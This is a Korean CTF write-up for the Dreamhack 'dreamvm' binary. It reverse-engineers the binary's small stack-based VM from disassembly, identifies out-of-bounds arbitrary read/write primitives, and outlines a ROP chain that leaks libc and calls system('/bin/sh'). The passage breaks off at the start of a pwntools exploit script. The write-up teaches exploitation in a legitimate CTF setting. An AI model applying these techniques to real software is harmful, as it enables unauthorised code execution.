





# [Dreamhack.io] dreamvm Write-Up

- **Platform:** Dreamhack
- **Date:** 2026-09-04 (solved) / 2026-09-06 (written)
- **Difficulty:** Medium
---

# 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 개요**
> - **목표:** `/bin/sh\x00` 실행
> - **제공 파일:** `dreamvm`
> - **보호 기법:**
> ```text
> Arch:       amd64-64-little
> RELRO:      Full RELRO
> Stack:      Canary found
> NX:         NX enabled
> PIE:        No PIE (0x400000)
> Stripped:   No
> ```


---

# 2. Binary Analysis (바이너리 분석)

## 소스 코드 / 디컴파일 분석

먼저 ghidra를 통해 분석된 `main()`의 **pseudo code의 일부**이다.

```c
undefined8 main(int param_1,long param_2)
{
  undefined1 *puVar1;
  long ****pppplVar2;
  int __fd;
  long lVar3;
  undefined1 *puVar4;
  undefined8 uVar5;
  long ***ppplVar6;
  long in_FS_OFFSET;
  byte bVar7;
  long **applStack_1038 [513];
  long ***local_30;
  long **local_28;
  long local_20;
  
  bVar7 = 0;
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 == 2) {
    __fd = open(*(char **)(param_2 + 8),0x80100);
    if (__fd != -1) {
      lVar3 = read_all(__fd,&code,0x100);
      close(__fd);
      goto LAB_004005fd;
    }
  }
  else {
    lVar3 = read_all(0,&code,0x100);
LAB_004005fd:
    if (0 < lVar3) {
      ppplVar6 = applStack_1038;
      for (lVar3 = 0x406; lVar3 != 0; lVar3 = lVar3 + -1) {
        *(undefined4 *)ppplVar6 = 0;
        ppplVar6 = (long ***)((long)ppplVar6 + ((ulong)bVar7 * -2 + 1) * 4);
      }
      local_30 = (long ***)&local_30;
      puVar4 = &code;
      do {
        puVar1 = puVar4 + 1;
        switch(*puVar4) {
        case 1:
```

처음 나오는 if문까지는 해석이 가능하다.
- 바이너리를 실행할 때, 명령행 전달인자로 파일을 전달하면, 그 파일에서 0x100 바이트를 읽고 `code` 영역에 적는다.
- 만약 명령행 전달인자로 전달된 파일이 없으면, 표준 입력을 통해 0x100 바이트를 읽고 `code` 영역에 적는다.


하지만 이 다음부터 각 코드를 읽고 진행하는 부분은 도저히 디컴파일된 내용으로 해석할 수 없었다.

어셈블리어를 봤을 때 레지스터들로만 계산이 이루어지는 걸 보았고, 그냥 어셈블리어를 보면서 해석해보기로 했다.

### 1️⃣ `read_all()` 분석

```gdb
Dump of assembler code for function read_all:
   0x0000000000400817 <+0>:     push   r13
   0x0000000000400819 <+2>:     push   r12
   0x000000000040081b <+4>:     mov    r13d,edi
   0x000000000040081e <+7>:     push   rbp
   0x000000000040081f <+8>:     push   rbx
   0x0000000000400820 <+9>:     mov    r12,rsi
   0x0000000000400823 <+12>:    mov    rbp,rdx
   0x0000000000400826 <+15>:    xor    ebx,ebx
   0x0000000000400828 <+17>:    sub    rsp,0x8
   0x000000000040082c <+21>:    mov    rdx,rbp
   0x000000000040082f <+24>:    lea    rsi,[r12+rbx*1]
   0x0000000000400833 <+28>:    mov    edi,r13d
   0x0000000000400836 <+31>:    sub    rdx,rbx
   0x0000000000400839 <+34>:    call   0x400570 <read@plt>
   0x000000000040083e <+39>:    test   rax,rax
   0x0000000000400841 <+42>:    je     0x400851 <read_all+58>
   0x0000000000400843 <+44>:    cmp    rax,0xffffffffffffffff
   0x0000000000400847 <+48>:    je     0x400854 <read_all+61>
   0x0000000000400849 <+50>:    add    rbx,rax
   0x000000000040084c <+53>:    cmp    rbp,rbx
   0x000000000040084f <+56>:    ja     0x40082c <read_all+21>
   0x0000000000400851 <+58>:    mov    rax,rbx
   0x0000000000400854 <+61>:    pop    rdx
   0x0000000000400855 <+62>:    pop    rbx
   0x0000000000400856 <+63>:    pop    rbp
   0x0000000000400857 <+64>:    pop    r12
   0x0000000000400859 <+66>:    pop    r13
   0x000000000040085b <+68>:    ret
End of assembler dump.
```

`read_all`은 지정된 크기의 데이터를 한 번의 `read` 호출로 모두 읽지 못하더라도, 여러 번 `read`를 호출하여 **요청된 크기만큼 데이터를 모두 읽는 함수**이다.


먼저 함수의 인자를 각각 보존한다.

- `r13` ← `rdi`: `read_all`의 첫 번째 인자로 전달된 **file descriptor**
- `r12` ← `rsi`: `read_all`의 두 번째 인자로 전달된 **데이터를 저장할 버퍼의 시작 주소**
- `rbp` ← `rdx`: `read_all`의 세 번째 인자로 전달된 읽어야 할 전체 바이트 수
- `rbx`: 현재까지 읽은 바이트 수

초기 `rbx`은 0으로 설정된다. (`read_all+15`의 `xor` 명령으로 인해)

```gdb
   0x000000000040082c <+21>:    mov    rdx,rbp
   0x000000000040082f <+24>:    lea    rsi,[r12+rbx*1]
   0x0000000000400833 <+28>:    mov    edi,r13d
   0x0000000000400836 <+31>:    sub    rdx,rbx
   0x0000000000400839 <+34>:    call   0x400570 <read@plt>
```

위 코드를 통해 실제 `read` 호출은 다음과 같은 형태가 된다.

```c
read(r13, r12 + rbx, rbp - rbx);
```

첫 번째 호출에서 `rbx == 0`이므로, `rbp`만큼 읽을 수 있다.

`read`가 반환한 값은 `rax`에 저장된다.

- `rax == 0` : 더 이상 읽을 데이터가 없으므로 종료한다.
- `rax == -1`: `read` 호출에 실패했으므로 종료한다.
- `rax > 0`: 실제로 읽은 바이트 수를 `rbx`에 더한다.

```gdb
   0x0000000000400849 <+50>:    add    rbx,rax
   0x000000000040084c <+53>:    cmp    rbp,rbx
   0x000000000040084f <+56>:    ja     0x40082c <read_all+21>
```

위 코드는 `rax > 0`인 경우, `rbx += rax`를 한 뒤, 현재까지 읽은 총 바이트 수(`rbx`)가 목표 바이트 수(`rbp`)보다 작은지 비교한다.

아직 모든 데이터를 읽지 못했다면, 다시 `read`를 호출한다. 이때 버퍼 주소는 `r12 + rbx`로 이동하고, 읽을 크기는 `rbp - rbx`로 감소한다.

결과적으로 이 함수는 아래 코드로 나타낼 수 있다.

```c
size_t read_all(int fd, void *buf, size_t size) {
	size_t total = 0;
	
	while (total < size) {
		ssize_t n = read(fd, (char *)buf + total, size - total);
		
		if (n == 0)
			break;
			
		if (n == -1)
			return -1;
			
		total += n;
	}
	
	return total;
}
```

### 2️⃣ `write_all.constprop.0` 분석

```gdb
Dump of assembler code for function write_all.constprop.0:
   0x000000000040085c <+0>:     push   r12
   0x000000000040085e <+2>:     mov    r12,rdi
   0x0000000000400861 <+5>:     push   rbp
   0x0000000000400862 <+6>:     mov    ebp,0x8
   0x0000000000400867 <+11>:    push   rbx
   0x0000000000400868 <+12>:    xor    ebx,ebx
   0x000000000040086a <+14>:    mov    rdx,rbp
   0x000000000040086d <+17>:    lea    rsi,[r12+rbx*1]
   0x0000000000400871 <+21>:    mov    edi,0x1
   0x0000000000400876 <+26>:    sub    rdx,rbx
   0x0000000000400879 <+29>:    call   0x400540 <write@plt>
   0x000000000040087e <+34>:    test   rax,rax
   0x0000000000400881 <+37>:    je     0x400892 <write_all.constprop.0+54>
   0x0000000000400883 <+39>:    cmp    rax,0xffffffffffffffff
   0x0000000000400887 <+43>:    je     0x400895 <write_all.constprop.0+57>
   0x0000000000400889 <+45>:    add    rbx,rax
   0x000000000040088c <+48>:    cmp    rbx,0x7
   0x0000000000400890 <+52>:    jbe    0x40086a <write_all.constprop.0+14>
   0x0000000000400892 <+54>:    mov    rax,rbx
   0x0000000000400895 <+57>:    pop    rbx
   0x0000000000400896 <+58>:    pop    rbp
   0x0000000000400897 <+59>:    pop    r12
   0x0000000000400899 <+61>:    ret
End of assembler dump.
```

`write_all.constprop.0`은 데이터를 출력할 버퍼의 시작 주소로부터 8바이트 값을 출력하는 함수이다.


먼저 함수의 인자를 보존한다.

- `r12` ← `rdi`: `write_all.constprop.0`의 첫 번째 전달인자인 **출력될 버퍼의 시작 주소**
- `rbp`: 출력될 목표 바이트 수, 8로 초기화되어 바뀌지 않는다.
- `rbx`: 현재까지 출력된 바이트 수

```gdb
   0x000000000040086a <+14>:    mov    rdx,rbp
   0x000000000040086d <+17>:    lea    rsi,[r12+rbx*1]
   0x0000000000400871 <+21>:    mov    edi,0x1
   0x0000000000400876 <+26>:    sub    rdx,rbx
   0x0000000000400879 <+29>:    call   0x400540 <write@plt>
```

위 코드를 통해 실행되는 호출은 다음과 같다.

```c
write(0x1, r12 + rbx, rbp - rbx);
```

첫 번째 호출에서 `rbx == 0`이므로 `r12 + rbx`부터 8바이트를 출력한다.

출력된 바이트 수는 `rax`에 저장된다.

- `rax == 0`: 더 이상 출력할 내용이 없으므로 리턴한다.
- `rax == -1`: `write` 함수 호출이 실패했으므로 리턴한다.
- `rax > 0`: 현재까지 출력된 개수를 `rbx`에 더한다.

```gdb
   0x0000000000400889 <+45>:    add    rbx,rax
   0x000000000040088c <+48>:    cmp    rbx,0x7
   0x0000000000400890 <+52>:    jbe    0x40086a <write_all.constprop.0+14>
```

위 코드는, `rax > 0`인 경우 `rbx += rax`를 한 뒤, 현재까지 출력된 바이트 수(`rbx`)가 `0x7`보다 작거나 같은지 비교한다.

만약 현재까지 출력된 바이트 수가 7바이트 이하인 경우, 다시 `write` 함수를 호출한다. 이때, 출력될 버퍼의 주소는 `r12 + rbx`로 증가하고, 출력될 바이트 수는 `rbp - rbx`로 감소한다.

결과적으로 해당 함수도 다음과 같이 나타낼 수 있다.

```c
size_t write_all_constprop_0(void *buf) {
	size_t total = 0;
	
	while (total < 0x8) {
		ssize_t n = write(1, (char *)buf + total, 8 - total);
		
		if (n == 0) break;
		
		if (n == -1) return -1;
		
		total += n;
	}
	
	return total;
}
```

### 3️⃣ `main` 함수 ⭐⭐⭐

`main` 함수의 내용은 길다. 결과적으로 `main` 함수의 대략적인 흐름은 아래와 같다.
```text
├ VM stack을 위한 stack 공간 확보
├ VM stack 상태 초기화
├ 사용자 입력 획득
├ opcode에 따라 분기
│    ├ 01: VM stack PUSH
│    ├ 02: VM stack POP
│    ├ 03: EDIT value
│    ├ 04: EDIT VM stack pointer 
│    ├ 05: WRITE value
│    └ 06: READ value
└ 종료
```

</br>
🔺 먼저 함수 프롤로그와 카나리를 저장하는 부분이다.

```gdb
   0x0000000000400590 <+0>:     push   r12
   0x0000000000400592 <+2>:     push   rbp
   0x0000000000400593 <+3>:     push   rbx
   0x0000000000400594 <+4>:     sub    rsp,0x1020
   0x000000000040059b <+11>:    mov    rax,QWORD PTR fs:0x28
   0x00000000004005a4 <+20>:    mov    QWORD PTR [rsp+0x1018],rax
   0x00000000004005ac <+28>:    xor    eax,eax
```

일반적인 함수 프롤로그의 `mov rbp, rsp`가 없기 때문에 `rbp`가 아닌 `rsp`을 기준으로 접근한다.

0x1020 크기의 stack 공간을 확보하고 있으며, 이후 이 공간이 VM의 stack 영역으로 사용된다.

</br>
🔺 그 다음, 명령행 전달인자의 유무를 통해 입력을 받는 부분이다.

```gdb
   0x00000000004005ae <+30>:    cmp    edi,0x2
   0x00000000004005b1 <+33>:    jne    0x4005e9 <main+89>
   0x00000000004005b3 <+35>:    mov    rdi,QWORD PTR [rsi+0x8]
   0x00000000004005b7 <+39>:    mov    esi,0x80100
   0x00000000004005bc <+44>:    call   0x400580 <open@plt>
   0x00000000004005c1 <+49>:    cmp    eax,0xffffffff
   0x00000000004005c4 <+52>:    mov    ebx,eax
   0x00000000004005c6 <+54>:    je     0x4006f6 <main+358>
   0x00000000004005cc <+60>:    mov    edx,0x100
   0x00000000004005d1 <+65>:    mov    esi,0x601040
   0x00000000004005d6 <+70>:    mov    edi,eax
   0x00000000004005d8 <+72>:    call   0x400817 <read_all>
   0x00000000004005dd <+77>:    mov    edi,ebx
   0x00000000004005df <+79>:    mov    rbp,rax
   0x00000000004005e2 <+82>:    call   0x400560 <close@plt>
   0x00000000004005e7 <+87>:    jmp    0x4005fd <main+109>
   0x00000000004005e9 <+89>:    mov    edx,0x100
   0x00000000004005ee <+94>:    mov    esi,0x601040
   0x00000000004005f3 <+99>:    xor    edi,edi
   0x00000000004005f5 <+101>:   call   0x400817 <read_all>
   0x00000000004005fa <+106>:   mov    rbp,rax
   0x00000000004005fd <+109>:   test   rbp,rbp
   0x0000000000400600 <+112>:   jle    0x4006f6 <main+358>
```

- `edi == 2`: 파일을 열고 0x100 바이트의 내용을 읽고 0x601040 위치에 적는다.
- `edi != 2`: 표준 입력을 통해 0x100 바이트의 내용을 읽고 0x601040 위치에 적는다.

앞으로 0x601040 주소를 `code`라고 부르겠다.

</br>
🔺 `main` 함수의 스택 프레임을 0으로 초기화하는 부분이다.

```gdb
   0x0000000000400606 <+118>:   mov    rbx,rsp
   0x0000000000400609 <+121>:   xor    eax,eax
   0x000000000040060b <+123>:   mov    ecx,0x406
   0x0000000000400610 <+128>:   mov    rdi,rbx
   0x0000000000400613 <+131>:   lea    r12,[rbx+0x1010]
   0x000000000040061a <+138>:   rep stos DWORD PTR es:[rdi],eax
```

- `rep stos`: 지정한 메모리를 특정 값으로 초기화
	- `al`, `ax`, `eax`, 또는 `rax` 레지스터에 있는 값을 `dl`, `dx`, `edx`, 또는 `rdx` 레지스터가 가리키는 메모리 주소에 저장한다.
	- 반복 횟수는 `cx`, `ecx`, 또는 `rcx`이며, 반복 후 자동으로 1씩 감소하며, 0이 되면 종료한다.
	- 반복 후 `dl`, `dx`, `edx`, 또는 `rdx` 레지스터 값은 크기만큼 자동으로 증가한다.

`ecx`는 0x406으로, `eax`는 0으로, `rdi`는 `rsp` 값으로 초기화된다.

이후 `rdi` 레지스터가 가리키는 4바이트 영역을 `eax` 값, 즉 0으로 초기화한다.

해당 과정을 `ecx`, 즉 0x406번 반복하면 `rsp`로부터 `0x406 * 4 == 0x1018`바이트가 0으로 초기화된다.

</br>
🔺 `code` 영역에 저장된 값을 읽기 전 수행되는 초기 작업이다.

```gdb
   0x000000000040061c <+140>:   lea    rax,[rbx+0x1008]
   0x0000000000400623 <+147>:   mov    QWORD PTR [rsp+0x1008],rax
   0x000000000040062b <+155>:   mov    eax,0x601040
```

위에서 `mov rbx, rsp` 명령으로 인해 `rbx`에는 `rsp` 값이 들어있다.

`rax`는 `[rbx + 0x1008]` 주소를 가지고, `[rsp + 0x1008]` 위치에 해당 주소를 8바이트 형식으로 넣는다.

즉, 초기 `[rsp + 0x1008]` 위치에는 본인의 주소를 저장하고 있다.

이후 `eax`는 `code` 영역의 주소를 가진다.

초기 작업 이후 `main`의 스택 프레임은 아래와 같다.

```
┌─────────────────────────────────────┐ <- rsp
│                                     │
│                                     │
│                                     │
│                                     │
│                                     │
│                                     │
│                                     │
├─────────────────────────────────────┤ <- rsp + 0x1000
│                                     │
├─────────────────────────────────────┤ <- rsp + 0x1008
│             rsp + 0x1008            │
├─────────────────────────────────────┤ <- rsp + 0x1010
│                                     │
├─────────────────────────────────────┤ <- rsp + 0x1018
│               canary                │
├─────────────────────────────────────┤
│                 rbx                 │
├─────────────────────────────────────┤
│                 rbp                 │
├─────────────────────────────────────┤
│                 r12                 │
├─────────────────────────────────────┤
│                 RET                 │
└─────────────────────────────────────┘
```

</br>
🔺 `code` 영역에 저장된 값을 한 바이트씩 읽는 과정이다.

```gdb
   0x0000000000400630 <+160>:   mov    cl,BYTE PTR [rax]
   0x0000000000400632 <+162>:   lea    rbp,[rax+0x1]
   0x0000000000400636 <+166>:   lea    edx,[rcx-0x1]
   0x0000000000400639 <+169>:   cmp    dl,0x5
   0x000000000040063c <+172>:   ja     0x4006fd <main+365>
   0x0000000000400642 <+178>:   movzx  edx,dl
   0x0000000000400645 <+181>:   jmp    QWORD PTR [rdx*8+0x400928]
```

- `rax`: `code` 영역에서 **현재** 읽어들일 주소
- `rbp`: `code` 영역에서 **다음**으로 읽어들일 주소
- `rdx`: `code` 영역에서 읽은 바이트 값 - 1

`code` 영역에서 한 바이트 읽은 뒤, 그 값에서 1을 뺀 값이 0부터 5 사이인지 검사한다.

만약 0과 5 사이라면, `[0x400928 + rdx * 8]` 위치에 적힌 주소로 점프한다.

그 위치에 적힌 값을 보면 `main` 함수 어딘가로 점프하는 걸 알 수 있다.



</br>
🔺 `dl`이 0부터 5인 경우 실행되는 코드이다.

#### `dl`이 0인 경우 == 사용자가 `\x01`을 입력한 경우

```gdb
   0x000000000040064c <+188>:   mov    rax,QWORD PTR [rsp+0x1008]
   0x0000000000400654 <+196>:   lea    rdx,[rax-0x8]
   0x0000000000400658 <+200>:   mov    QWORD PTR [rsp+0x1008],rdx
   0x0000000000400660 <+208>:   mov    rdx,QWORD PTR [rsp+0x1010]
   0x0000000000400668 <+216>:   mov    QWORD PTR [rax-0x8],rdx
   0x000000000040066c <+220>:   jmp    0x4006ce <main+318>
```

먼저, `QWORD PTR [rsp + 0x1008]` 위치에 원래 그곳에 있던 값에서 8을 뺀 값을 넣는다.

이후, `QWORD PTR [rsp + 0x1008]`에 원래 있던 값에서 8을 뺀 값을 주소로 생각하여, 그 위치에 `QWORD PTR [rsp + 0x1010]` 값을 넣는다.

#### `dl`이 1인 경우 == 사용자가 `\x02`을 입력한 경우

```gdb
   0x000000000040066e <+222>:   mov    rax,QWORD PTR [rsp+0x1008]
   0x0000000000400676 <+230>:   mov    rdx,QWORD PTR [rax]
   0x0000000000400679 <+233>:   add    rax,0x8
   0x000000000040067d <+237>:   mov    QWORD PTR [rsp+0x1008],rax
   0x0000000000400685 <+245>:   mov    QWORD PTR [rsp+0x1010],rdx
   0x000000000040068d <+253>:   jmp    0x4006ce <main+318>
```

먼저 `QWORD PTR [rsp + 0x1008]`에 있는 값을 주소로 하여 그 주소에 있는 값을 `rdx` 레지스터에 저장한다.

이후, `[rsp + 0x1008]`에 있는 값을 8 더한 뒤, `[rsp + 0x1008]`에 더한 값을 넣는다.

`[rsp + 0x1010]` 위치에는 `rdx` 레지스터에 저장된 값을 넣는다.

> [!IMPORTANT]
> ⭐ **이 두 부분을 보고 내가 느낀 점**
> - `[rsp + 0x1008]`은 메모리 접근의 주소로 사용되는 값을 저장하는 용도로 사용된다.
> - `[rsp + 0x1010]`은 해당 주소에 저장된 값을 저장하는 용도로 사용된다.
> 
> 그러면 `[rsp + 0x1008]`에 저장된 값을 다루기 위해 해당 메모리 위치를 가리키는 포인터를 `p1`, `[rsp + 0x1010]`을 가리키는 포인터를 `p2`라고 가정하고 다시 두 opcode의 흐름을 보면 아래와 같다.
> 
> - opcode가 `\x01`인 경우
> ```
> *p1 -= 0x8;
> **p1 = *p2;
> ```
> 
> - opcode가 `\x02`인 경우
> ```
> *p2 = **p1;
> *p1 += 0x8;
> ```
> 
> 두 opcode의 흐름을 나란히 비교해보면 `p1`이 가리키는 값이 각각 8씩 감소하거나 증가하며, 그 위치에 값을 저장하거나 해당 위치의 값을 읽어오는 대칭적인 동작이 나타난다.
> 
> 8씩 감소하면서 해당 위치에 값을 저장하고, 8씩 증가하면서 이전 위치의 값을 읽어오는 패턴을 통해 `p1`이 가리키는 값은 VM이 가지는 stack의 최상단을 나타내는 `stack pointer`로 추정할 수 있다.
> 
> 이를 앞서 분석한 stack 초기화 과정과 대조하면, `p1`이 VM stack pointer의 역할을 한다는 것과
> `p2`는 VM stack에 PUSH할 값, 혹은 POP된 값을 저장하는 메모리를 가리킨다는 것을 알 수 있다.
> 
> **즉, `opcode \x01`은 현재 값을 VM stack에 `PUSH`하고, `opcode \x02`은 VM stack의 최상단 값을 `POP`하는 명령어로 해석할 수 있다.**

> 앞선 분석을 통해 `p1`이 VM stack pointer를 가리키며, `p2`가 현재 값을 저장하는 영역임을 확인하였다. 이후 opcode 분석에서는 이를 전제로 각 명령어의 동작을 해석한다.

</br>
#### `dl`이 2인 경우 == 사용자가 `\x03`을 입력한 경우

```gdb
   0x000000000040068f <+255>:   mov    rdx,QWORD PTR [rax+0x1]
   0x0000000000400693 <+259>:   add    QWORD PTR [rsp+0x1010],rdx
   0x000000000040069b <+267>:   jmp    0x4006a9 <main+281>
   0x000000000040069d <+269>:   mov    rdx,QWORD PTR [rax+0x1]
   0x00000000004006a1 <+273>:   add    QWORD PTR [rsp+0x1008],rdx
   0x00000000004006a9 <+281>:   lea    rbp,[rax+0x9]
   0x00000000004006ad <+285>:   jmp    0x4006ce <main+318>
```

현재 입력된 명령어의 다음 위치(`rax+1`)에 있는 8바이트 값을 현재 값에 더한다.

따라서 opcode가 `\x03`인 경우, 그 뒤에 8바이트 값이 인자로 사용된다.

이후 실행될 opcode 위치를 조정하기 위해 `lea rbp, [rax+0x9]`를 진행한다.

</br>
#### `dl`이 3인 경우 == 사용자가 `\x04`을 입력한 경우

```gdb
   0x000000000040069d <+269>:   mov    rdx,QWORD PTR [rax+0x1]
   0x00000000004006a1 <+273>:   add    QWORD PTR [rsp+0x1008],rdx
   0x00000000004006a9 <+281>:   lea    rbp,[rax+0x9]
   0x00000000004006ad <+285>:   jmp    0x4006ce <main+318>
```

현재 입력된 명령어의 다음 위치(`rax+1`)에 있는 8바이트 값을 VM stack pointer에 더한다.

따라서 opcode가 `\x04`인 경우에도, 그 뒤에 8바이트 값이 인자로 사용된다.

이후 실행될 opcode 위치를 조정하기 위해 `lea rbp, [rax+0x9]`를 진행한다.

</br>
#### `dl`이 4인 경우 == 사용자가 `\x05`을 입력한 경우

```
   0x00000000004006af <+287>:   mov    rdi,r12
   0x00000000004006b2 <+290>:   call   0x40085c <write_all.constprop.0>
   0x00000000004006b7 <+295>:   jmp    0x4006c8 <main+312>
   .
   .
   .
   0x00000000004006c8 <+312>:   cmp    rax,0x8
   0x00000000004006cc <+316>:   jne    0x4006f6 <main+358>
```

VM stack을 초기화하는 부분에서 `r12` 레지스터는 현재 값을 저장하는 영역의 주소로 초기화된다.

이후, `write_all.constprop.0` 함수를 호출함으로써, 현재 저장된 값을 출력한다.

출력된 총 바이트 수가 8바이트가 아니라면 `write` 함수 호출에 실패한 것이므로, 바이너리를 종료한다.

</br>
#### `dl`이 5인 경우 == 사용자가 `\x06`을 입력한 경우

```gdb
   0x00000000004006b9 <+297>:   mov    edx,0x8
   0x00000000004006be <+302>:   mov    rsi,r12
   0x00000000004006c1 <+305>:   xor    edi,edi
   0x00000000004006c3 <+307>:   call   0x400817 <read_all>
   0x00000000004006c8 <+312>:   cmp    rax,0x8
   0x00000000004006cc <+316>:   jne    0x4006f6 <main+358>
```

VM stack을 초기화하는 부분에서 `r12` 레지스터는 현재 값을 저장하는 영역의 주소로 초기화된다.

따라서 `read_all` 함수를 호출하여 현재 값을 저장하는 영역에 새로 8바이트 값을 입력한다.

입력한 총 바이트 수가 8바이트가 아니라면 `read` 함수 호출에 실패한 것이므로, 바이너리를 종료한다.

</br>
#### 각각의 opcode가 이루어진 다음, VM stack과 관련하여 검사하는 부분

```gdb
   0x00000000004006ce <+318>:   mov    rax,QWORD PTR [rsp+0x1008]
   0x00000000004006d6 <+326>:   cmp    rax,rbx
   0x00000000004006d9 <+329>:   je     0x4006e0 <main+336>
   0x00000000004006db <+331>:   cmp    rax,r12
   0x00000000004006de <+334>:   jne    0x4006e5 <main+341>
   0x00000000004006e0 <+336>:   call   0x400530 <abort@plt>
   0x00000000004006e5 <+341>:   cmp    rbp,0x601137
   0x00000000004006ec <+348>:   ja     0x4006fd <main+365>
   0x00000000004006ee <+350>:   mov    rax,rbp
   0x00000000004006f1 <+353>:   jmp    0x400630 <main+160>
```

위 부분은 opcode가 `\x01` ~ `\x05`일 때, 각각의 작업을 수행한 이후 실행되는 부분이다.

* `rbx`: stack을 초기화하는 부분에서 `rsp`로 초기화되어 있다.
* `r12`: stack을 초기화하는 부분에서 현재 값을 저장하는 영역의 주소로 초기화되어 있다.

`abort` 함수가 호출되는 경우는 현재 VM stack pointer가 `rsp`이거나 현재 값을 저장하는 영역의 주소인 경우이다.

그렇다면 다음과 같이 VM stack은 `main` 함수의 스택을 사용한다는 걸 알 수 있다.

```
┌─────────────────────────────────────┐ <- rsp <- VM stack의 최상단
│                                     │
│                                     │
│                                     │
│                                     │
│                                     │
│                                     │
│                                     │
├─────────────────────────────────────┤ <- rsp + 0x1000
│                                     │
├─────────────────────────────────────┤ <- rsp + 0x1008 <- VM stack의 최하단
│           VM stack pointer          │
├─────────────────────────────────────┤ <- rsp + 0x1010
│                value                │
├─────────────────────────────────────┤ <- rsp + 0x1018
│               canary                │
├─────────────────────────────────────┤
│                 rbx                 │
├─────────────────────────────────────┤
│                 rbp                 │
├─────────────────────────────────────┤
│                 r12                 │
├─────────────────────────────────────┤
│                 RET                 │
└─────────────────────────────────────┘
```

> [!IMPORTANT]
> 어셈블리를 통해 분석했으므로 내용이 장황해졌다.
> 
> 결국, 지금까지의 분석을 종합하면 이 바이너리는 입력을 opcode로 해석하여 VM stack을 조작하는 가상 머신으로 볼 수 있다.

---

# 3. Vulnerability Analysis (취약점 분석)

❓ **그러면 지금 바이너리에서 취약점이 존재하는가**
 
- `\x01` / `\x02`: VM stack PUSH & POP
- `\x03`: 현재 값 조작
- `\x04`: VM stack pointer 조작
- `\x05`: 현재 값 출력
- `\x06`: 현재 값 입력

#### Exploit Primitive 1: VM stack pointer 조작

> `\x04`를 통해 VM stack pointer를 원하는 위치로 이동시킬 수 있다. (인자로 전달된 8바이트 값에 대해 검증이 없음)

#### Exploit Primitive 2: Out of Bound

> 각 opcode가 실행된 이후, VM stack의 범위 검증 부분에서 단순히 같지 않으면 되기 때문에 OOB가 가능하다.

#### Exploit Primitive 3: Arbitrary Address Read/Write

> `\x06` + `\x01` 을 이용하면 원하는 위치에 원하는 값을 기록할 수 있다.

> `\x02` + `\x05` 을 이용하면 원하는 위치에 있는 값을 출력할 수 있다.

---

# 4. Exploit Strategy (최종 해결 전략)

> [!TIP]
> 📖 **페이로드 구성**
> 1. 먼저, VM stack pointer를 `RET + 8`에 위치시킨다.
> 2. `RET` 주소부터 다음과 같이 ROP chain을 구성한다.
> 	2-1. `write(1, read@got, 8)`을 호출한다.
> 	2-2. 다시 `main` 함수로 돌아온다.
> 3. 두 번째 `main` 함수에서도 먼저, VM stack pointer를 `RET + 8`에 위치시킨다.
> 4. `RET` 주소부터 `system("/bin/sh")`을 호출하도록 ROP chain을 구성한다.

`\x06`을 통해 값을 입력하고, `\x01`로 값을 PUSH하며, `\x04`로 VM stack pointer를 0x10만큼 증가시켜야 된다.

```text
----------- <- p2                 ----------- <- p2                              ----------- <- p2
0xAAAAAAAA                        0xAAAAAAAA                                     0xAAAAAAAA
-----------                       -----------                                    ----------- 
.                                 .                                              .
.                   \x01          .                             \x04 + p64(0x10) .
.                  ======>        .                                ======>       .
-----------                       ----------- <- VM stack pointer                -----------

----------- <- VM stack pointer   -----------                                    -----------
                                  0xAAAAAAAA                                     0xAAAAAAAA
-----------                       -----------                                    ----------- <- VM stack pointer
```

이 과정이 반복되므로, 변수 `read_push_move`로 설정하였다.

</br>
그리고 함수의 전달인자를 설정하기 위한 가젯들 중 `pop rsi; pop r15; ret`, `pop rdx; pop rbx; pop rbp; pop r12; pop r13; ret`과 같이 중간에 더미값을 넣어줘야 하는 가젯이 있다.

우리는 VM stack pointer을 조작할 수 있으므로, 더미값을 넣어서 페이로드를 늘리지 않고, VM stack pointer를 조작해서 해당 더미값을 넣지 않고도 ROP chain이 이루어지게끔 할 것이다.

더미값을 한 번 넣어줘야 되는 경우에는 이를 우회하기 위해 VM stack pointer를 0x8 바이트만큼 증가시켜야 된다.

`read_push_move`을 통해 `pop rsi; pop r15; ret` 가젯 주소와 `rsi` 레지스터에 들어갈 값을 저장하면 다음과 같다.

```
----------------------- 
pop rsi; pop r15; ret
-----------------------
rsi 레지스터에 들어갈 값
-----------------------
r15에 들어갈 더미값
----------------------- <- 현재 VM stack pointer
다음 명령어 주소
```

여기서 r15에 들어갈 더미값을 넣지 않기 위해서는 VM stack pointer를 0x8 증가시켜줘야한다.

따라서 `dummy_1_pass = b'\x04' + p64(0x8)` 이라고 할 수 있다.

더미값을 네 번 넣어줘야 되는 경우에도 마찬가지이다. 이를 우회하기 위해서는 VM stack pointer를 0x20 바이트만큼 증가시켜야 한다.

`dummy_4_pass = b'\x04' + p64(0x20)` 이라고 할 수 있다.

## `main` 함수로 되돌아오기 위한 ROP chain 구성 페이로드

```python
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./dreamvm')
e = ELF('./dreamvm')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

r = ROP(e)

# ROP chain
pop_rdi                 = r.find_gadget(['pop rdi'])[0]
